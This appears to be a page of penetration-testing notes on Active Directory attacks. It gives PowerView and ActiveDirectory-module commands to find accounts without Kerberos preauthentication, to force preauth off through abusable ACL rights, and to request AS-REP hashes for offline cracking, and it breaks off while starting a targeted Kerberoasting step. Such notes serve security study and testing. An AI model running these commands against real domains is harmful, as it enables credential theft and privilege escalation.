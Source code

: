 - If a user’s UserAccountControl settings have **Do not require Kerberos preauthentication** enabled i.e. Kerberos preauth is disabled, its possible to grab user’s crackable AS-REP and brute-force it offline
- With sufficient rights (**GenericWrite or GenericAll**), Kerberos preauth can be forced disabled as well

**Enumerating accounts with Kerberos Preauth disabled**

~~~
Get-DomainUser -PreauthNotRequired -Verbose
~~~

Using ActiveDirectory module:

~~~
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
~~~

**Force disable Kerberos Preauth**:

Let’s enumerate the permissions for RDPUsers on ACLs using PowerView:

~~~
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"} 
~~~

~~~
Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} -Verbose
~~~

~~~
Get-DomainUser -PreauthNotRequired -Verbose
~~~

**Request encrypted AS-REP for offline brute-force**

Let’s use ASREPRoast:

~~~
Get-ASREPHash -UserName VPN1user -Verbose
~~~

To enumerate all users with Kerberos preauth disabled and request a hash:

~~~
Invoke-ASREPRoast -Verbose
~~~

#### Targeted Kerberoasting - Set SPN

- With enough rights (**GenericAll/GenericWrite**), a target user’s SPN can be set to anything (unique in the domain)
- We can then request TGS without special privileges. The TGS can then be **Kerberoasted**.

Let’s enumerate the permissions for RDPUsers on ACLs using PowerView:

~~~
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
~~~

Using Powerview, see if the user already has a SPN:
~~~
Get-DomainUser -Identity supportuser | select serviceprincipalname
~~~

